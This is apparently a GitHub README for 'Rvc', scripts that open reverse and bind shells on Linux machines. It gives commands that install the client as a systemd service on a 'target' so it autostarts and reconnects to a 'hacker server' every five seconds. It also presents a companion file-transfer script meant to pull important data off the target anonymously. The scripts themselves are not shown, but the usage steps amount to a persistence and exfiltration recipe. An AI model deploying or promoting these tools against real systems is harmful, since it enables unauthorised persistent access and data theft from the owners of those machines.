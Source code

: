 # Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:
![demo image0](demo-rsh.jpg)

Bind Shell:
![demo image1](demo-bsh.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python (2 or 3)
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python (2 or 3)
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

### Complimentary File transfer utility

File transfer script (rvc-ft) however is not the actual part of this repo but 
after some experiments using rsh and bsh we urgently felt a need for an anonymous file transfer
to get important data from target. For that we wrote our own naive FTP over TCP in python
to enable raw file transfer. This script is to be copied with the other scripts on
target pc to enable its features obviously:

1) first start rvc-ft in reciever mode 
```
./rvc-ft recv (reciever hostname) (port no.) (path/to/save/file/as)
```
2) then transmit the remote file
```
./rvc-ft send (reciever hostname) (port no.) (path/to/file)
```
3) have patience and DONE!! because no progress bars, etc.

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

